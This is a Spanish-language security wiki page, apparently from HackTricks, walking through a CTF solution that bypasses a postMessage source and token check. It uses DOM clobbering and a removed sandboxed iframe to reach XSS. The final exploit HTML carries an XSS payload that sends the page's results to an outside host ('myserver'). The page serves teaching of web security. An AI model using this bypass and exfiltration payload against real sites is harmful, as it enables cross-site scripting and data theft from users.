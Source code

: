 # Bypassing SOP with Iframes - 2

{{#include ../../banners/hacktricks-training.md}}

## Iframes in SOP-2

En la [**solución**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc/solution) para este [**desafío**](https://github.com/project-sekai-ctf/sekaictf-2022/tree/main/web/obligatory-calc)**,** [**@Strellic\_**](https://twitter.com/Strellic_) propone un método similar al de la sección anterior. Vamos a revisarlo.

En este desafío, el atacante necesita **bypassar** esto:
```javascript
if (e.source == window.calc.contentWindow && e.data.token == window.token) {
```
Si lo hace, puede enviar un **postmessage** con contenido HTML que se va a escribir en la página con **`innerHTML`** sin saneamiento (**XSS**).

La forma de eludir la **primera verificación** es haciendo que **`window.calc.contentWindow`** sea **`undefined`** y **`e.source`** sea **`null`**:

- **`window.calc.contentWindow`** es en realidad **`document.getElementById("calc")`**. Puede sobrescribir **`document.getElementById`** con **`<img name=getElementById />`** (tenga en cuenta que la API de Sanitizer -[aquí](https://wicg.github.io/sanitizer-api/#dom-clobbering)- no está configurada para proteger contra ataques de sobrescritura de DOM en su estado predeterminado).
- Por lo tanto, puede sobrescribir **`document.getElementById("calc")`** con **`<img name=getElementById /><div id=calc></div>`**. Entonces, **`window.calc`** será **`undefined`**.
- Ahora, necesitamos que **`e.source`** sea **`undefined`** o **`null`** (porque se usa `==` en lugar de `===`, **`null == undefined`** es **`True`**). Obtener esto es "fácil". Si crea un **iframe** y **envía** un **postMessage** desde él y luego **elimina** el iframe, **`e.origin`** será **`null`**. Verifique el siguiente código.
```javascript
let iframe = document.createElement("iframe")
document.body.appendChild(iframe)
window.target = window.open("http://localhost:8080/")
await new Promise((r) => setTimeout(r, 2000)) // wait for page to load
iframe.contentWindow.eval(`window.parent.target.postMessage("A", "*")`)
document.body.removeChild(iframe) //e.origin === null
```
Para eludir la **segunda verificación** sobre el token, se envía **`token`** con el valor `null` y se hace que el valor de **`window.token`** sea **`undefined`**:

- Enviar `token` en el postMessage con el valor `null` es trivial.
- **`window.token`** al llamar a la función **`getCookie`** que utiliza **`document.cookie`**. Tenga en cuenta que cualquier acceso a **`document.cookie`** en páginas de origen **`null`** provoca un **error**. Esto hará que **`window.token`** tenga un valor de **`undefined`**.

La solución final de [**@terjanq**](https://twitter.com/terjanq) es la [**siguiente**](https://gist.github.com/terjanq/0bc49a8ef52b0e896fca1ceb6ca6b00e#file-calc-html):
```html
<html>
<body>
<script>
// Abuse "expr" param to cause a HTML injection and
// clobber document.getElementById and make window.calc.contentWindow undefined
open(
'https://obligatory-calc.ctf.sekai.team/?expr="<form name=getElementById id=calc>"'
)

function start() {
var ifr = document.createElement("iframe")
// Create a sandboxed iframe, as sandboxed iframes will have origin null
// this null origin will document.cookie trigger an error and window.token will be undefined
ifr.sandbox = "allow-scripts allow-popups"
ifr.srcdoc = `<script>(${hack})()<\/script>`

document.body.appendChild(ifr)

function hack() {
var win = open("https://obligatory-calc.ctf.sekai.team")
setTimeout(() => {
parent.postMessage("remove", "*")
// this bypasses the check if (e.source == window.calc.contentWindow && e.data.token == window.token), because
// token=null equals to undefined and e.source will be null so null == undefined
win.postMessage(
{
token: null,
result:
"<img src onerror='location=`https://myserver/?t=${escape(window.results.innerHTML)}`'>",
},
"*"
)
}, 1000)
}

// this removes the iframe so e.source becomes null in postMessage event.
onmessage = (e) => {
if (e.data == "remove") document.body.innerHTML = ""
}
}
setTimeout(start, 1000)
</script>
</body>
</html>
```
{{#include ../../banners/hacktricks-training.md}}
